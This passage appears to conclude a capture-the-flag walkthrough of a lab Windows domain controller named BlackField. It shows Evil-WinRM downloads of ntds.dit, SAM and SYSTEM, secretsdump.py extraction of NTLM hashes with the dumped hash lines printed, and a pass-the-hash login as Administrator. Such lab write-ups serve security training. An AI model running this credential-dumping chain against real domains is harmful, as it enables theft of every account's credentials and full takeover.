The files `ntds.dit`, `SAM`, and `SYSTEM` have been successfully downloaded to the attacker machine. Now use `secretsdump.py` to extract the NTLM hashes.

```bash
*Evil-WinRM* PS C:\temp> download ntds.dit
                                        
Info: Downloading C:\temp\ntds.dit to ntds.dit
                                        
Info: Download successful!
*Evil-WinRM* PS C:\temp> download SAM
                                        
Info: Downloading C:\temp\SAM to SAM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\temp> download SYSTEM
                                        
Info: Downloading C:\temp\SYSTEM to SYSTEM
                                        
Info: Download successful!


```

The `secretsdump.py` command is executed to extract password hashes from the `ntds.dit` database using the local `SYSTEM` hive.

```bash
 secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

The NTLM hash for the Administrator user has been successfully dumped: `184fb5e5178480be64824d4cd53b99ee`. This can be used for Pass-The-Hash to gain administrative access.

```output
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b619429d3c282e0c367cae942e43837f:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::

```

Successfully established an Evil-WinRM shell as the Administrator user using Pass-The-Hash. The system is now fully compromised.

```bash
evil-winrm -i 10.129.229.17  -u Administrator  -H 184fb5e5178480be64824d4cd53b99ee
```

The root flag is `4375a629c7c67c8e29db269060c955cb`. The BlackField machine is complete.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
4375a629c7c67c8e29db269060c955cb


```